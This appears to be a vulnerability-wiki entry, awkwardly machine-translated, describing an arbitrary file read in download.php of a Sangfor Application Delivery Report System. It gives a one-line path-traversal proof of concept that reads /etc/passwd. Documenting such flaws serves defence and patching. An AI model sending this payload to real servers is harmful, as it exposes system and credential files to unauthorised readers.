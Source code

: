 #Shenxinshui Application Delivery Report System download.php arbitrary file reading vulnerability

## Vulnerability Description

Deepin Service Application Delivery Report System There is a random file reading vulnerability in the download.php file. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxinshui Application Delivery Report System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646063330818-50320d99-80e6-4f24-9ac7-1de5acf8d3d6.png)

Verify POC

```javascript
/report/download.php?pdf=../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646063383225-b9436429-8a97-4675-9a24-29539b3e5be5.png)